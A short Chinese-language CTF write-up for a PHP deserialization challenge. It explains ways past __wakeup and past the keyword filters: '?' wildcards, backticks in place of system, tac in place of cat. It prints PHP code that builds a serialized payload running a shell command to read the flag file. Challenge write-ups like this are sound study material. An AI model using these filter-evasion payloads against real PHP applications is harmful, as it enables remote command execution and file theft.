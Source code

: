 ### normal-unserialize

> 反序列化漏洞，网上找教程：

1. `__wakeup()`绕过：修改反序列后的变量数量，但是这个会有问题，但是不修改，他也不会`die()`

2. `__destruct()`中的两个正则：
   1. 其中`flag`和`php`可以通过`?`绕过；`system`可以利用反引号；`cat`可以通过`tac`。
   2. 第二个正则中，需要包含`=`，同时要构造php标签，可以用`<?`。

3. 编写PHP：

    ```php
    class hack {
        public $key;
        public function __wakeup(){
        }
        public function __destruct(){
        }
    }
    $a = new hack();
    $a -> key = '<?=`tac /fla??p?p`;';
    echo(serialize($a));
    ```

    通过`_GET`方法传递参数，得到flag。

    ![flag](assets/image-31.png)
